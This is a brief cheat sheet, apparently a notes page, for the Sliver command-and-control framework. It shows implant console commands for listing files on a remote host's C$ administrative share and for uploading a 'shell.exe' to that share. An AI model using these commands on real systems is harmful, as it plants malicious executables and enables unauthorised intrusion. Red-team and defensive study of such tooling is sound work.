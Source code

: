 # Sliver

## 01 - List Files and Directories

`sliver (IMPLANT_NAME) > ls //<IP>/c$`

## 02 - Upload Files

`sliver (IMPLANT_NAME) > upload /path/to/shell.exe //<IP>/c$/shell.exe`